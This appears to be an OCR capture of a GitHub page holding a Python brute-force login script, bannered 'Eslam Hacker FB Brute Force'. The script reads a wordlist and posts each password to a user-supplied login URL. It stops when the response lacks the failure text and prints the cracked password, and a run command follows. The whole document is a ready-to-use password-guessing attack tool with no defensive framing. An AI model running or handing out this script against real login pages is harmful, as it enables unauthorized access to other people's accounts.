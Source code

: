 import requests
from time import sleep
from colorama import Fore, init

init()

def print_banner():
    print(Fore.RED + r"""
     👁️‍🗨️ Welcome 👁️‍🗨️
   ███████╗███████╗██╗     █████╗ ███╗   ███╗
   ██╔════╝██╔════╝██║    ██╔══██╗████╗ ████║
   ███████╗█████╗  ██║    ███████║██╔████╔██║
   ╚════██║██╔══╝  ██║    ██╔══██║██║╚██╔╝██║
   ███████║███████╗███████╗██║  ██║██║ ╚═╝ ██║
   ╚══════╝╚══════╝╚══════╝╚═╝  ╚═╝╚═╝     ╚═╝
       [ Eslam Hacker FB 🔥 Brute Force ]
    """ + Fore.RESET)

def brute_force_login(url, username, user_field, pass_field, fail_text, wordlist_path):
    try:
        with open(wordlist_path, 'r') as file:
            passwords = file.readlines()
    except FileNotFoundError:
        print(Fore.YELLOW + "[!] Wordlist not found!" + Fore.RESET)
        return

    for password in passwords:
        password = password.strip()
        data = {user_field: username, pass_field: password}
        print(Fore.CYAN + f"[+] Trying: {password}" + Fore.RESET)
        response = requests.post(url, data=data)

        if fail_text not in response.text:
            print(Fore.GREEN + f"[✔] Password found: {password}" + Fore.RESET)
            return
        sleep(0.5)

    print(Fore.RED + "[-] Password not found in wordlist." + Fore.RESET)

# ------ Main ------
print_banner()
target_url = input("[?] Login URL: ")
username = input("[?] Username: ")
user_field = input("[?] User Field Name (e.g. user): ")
pass_field = input("[?] Pass Field Name (e.g. pass): ")
fail_text = input("[?] Fail Text in Response (e.g. Login failed): ")
wordlist_path = input("[?] Wordlist Path (e.g. wordlist.txt): ")

brute_force_login(target_url, username, user_field, pass_field, fail_text, wordlist_path)
python3 brute.py
